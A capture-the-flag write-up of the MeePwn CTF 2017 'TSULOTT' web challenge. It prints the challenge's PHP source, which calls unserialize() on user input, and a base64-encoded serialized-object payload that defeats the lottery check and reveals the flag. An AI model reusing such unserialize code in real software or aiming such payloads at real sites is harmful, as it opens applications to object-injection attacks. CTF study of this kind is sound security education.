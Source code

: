 ```yaml
---
title: "MeePwn CTF 2017: TSULOTT"
date: "2017-07-17"
author: Jorge
tags:
- hack 
- ctf
toc: true
summary: ""
---
```


**100 pts**

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!! <br/> <br/> Remote: [128.199.190.23:8001](http://128.199.190.23:8001)

![](/img/ctf/2017/Screenshot_20170716_184808.png)

## Think simple
![](/img/ctf/2017/Screenshot_20170714_204246.png)
- Lets check the source code from the web.
- Here we can see a comment, `<!-- GET is_debug=1 -->`
    mmmm... why not [128.199.190.23:8001?is_debug=1](http://128.199.190.23:8001?is_debug=1).
- Awesome! now we can read the server code, it is written in PHP.

```php
<body> 
<style> 
input[type=text] { 
    width: 40%; 
    padding: 12px 20px; 
    margin: 8px 0; 
    box-sizing: border-box; 
    border: 2px solid red; 
    background-color: #ebfff8; 
    border-radius: 4px; 
} 

button[type=submit] { 
    width: 10%; 
    background-color: #F94848; 
    color: white; 
    padding: 14px 20px; 
    margin: 8px 0; 
    border: none; 
    border-radius: 4px; 
    cursor: pointer; 
} 

button[type=submit]:hover { 
    background-color: #45a049; 
} 

body { 
    background-image: url("money.jpg"); 
} 
</style> 

<?php 
class Object  
{  
  var $jackpot; 
  var $enter;  
} 
?> 


<?php 

include('secret.php'); 

if(isset($_GET['input']))   
{ 
  $obj = unserialize(base64_decode($_GET['input'])); 
  if($obj) 
  { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99);  
    if($obj->enter === $obj->jackpot) 
    { 
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>"; 
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>"; 
      echo "<center><img src='http://www.relatably.com/m/img/cross-memes/5378589.jpg' /></center>"; 

    } 
    else 
    { 
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>"; 
    } 
  } 
  else 
  { 
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>"; 
  } 
} 
else 
{ 
  echo ""; 
} 
?> 
<center> 
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2> 
<p><p><font color='white'>Input your code to win jackpot!</font><p> 
<form> 
          <input type="text" name="input" /><p><p> 
          <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if (isset($_GET['gen_code']) && !empty($_GET['gen_code'])) 
{ 
  $temp = new Object; 
  $temp->enter=$_GET['gen_code']; 
  $code=base64_encode(serialize($temp));  
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>'; 
} 
?> 
<center> 
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font> 
<h3><font color='white'>Take code</font></h3><p> 
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p> 
<form> 
      <input type="text" name="gen_code" maxlength="17" /><p><p> 
      <button type="submit" name="btn-submit" value="go">send</button> 
</form> 
</center> 
<?php 
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1') 
{ 
   show_source(__FILE__); 
} 
?> 
<!-- GET is_debug=1 --> 
</body> 
```

## Injection
The flag is rendered after this condition:

```php
if($obj->enter === $obj->jackpot)
```

Reading the PHP code we can notice the vulnerability. PHP Object Injection.
Get the input and try to unserialize it as an Object.

```php
$obj = unserialize(base64_decode($_GET['input']));
```

We need the enter value and the jackpot value of the object to be the same, but we will never manage to get it right. The object is serialized and then the jackpot attribute is setted as random.

```php
$obj = unserialize(base64_decode($_GET['input'])); 
if($obj) { 
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot);
...
}
```

Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL

```json
INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
```

```json
OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
```
    
## Win the lottery
Paste the output into the form and voilà:
### MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}

![](/img/ctf/2017/Screenshot_20170715_000809.png)